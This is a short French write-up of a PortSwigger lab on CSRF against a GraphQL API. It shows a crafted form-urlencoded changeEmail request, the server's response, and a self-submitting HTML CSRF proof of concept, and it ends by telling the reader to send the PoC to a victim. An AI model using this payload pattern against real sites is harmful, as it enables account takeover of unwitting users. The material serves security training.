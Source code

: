 # Lab

https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api

## Solution

Changer le `Content-Type` en `x-www-form-urlencoded` et ajouter le paramètre `query` avec la valeur du POST initial sous forme URL :

```http
POST /graphql/v1 HTTP/2
Host: 0a1500fc03f2853982310bfc00a50002.web-security-academy.net
Cookie: session=jILLI3cV1WML6odXVEqAiktduGjnaPDf; session=jILLI3cV1WML6odXVEqAiktduGjnaPDf
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Accept: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0a1500fc03f2853982310bfc00a50002.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1500fc03f2853982310bfc00a50002.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 163

query=mutation+changeEmail($input%3a+ChangeEmailInput!)+{changeEmail(input%3a+$input)+{+email+}+}&operationName=changeEmail&variables={"input":{"email":"mdr@lol.net"}}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 75

{
  "data": {
    "changeEmail": {
      "email": "mdr@lol.net"
    }
  }
}
```

Avec Burp Suite on peut générer un PoC CSRF :

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1500fc03f2853982310bfc00a50002.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#32;email&#32;&#125;&#32;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;mdr&#64;lol&#46;net&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

L'envoyer à la victime et l'inciter à l'ouvrir.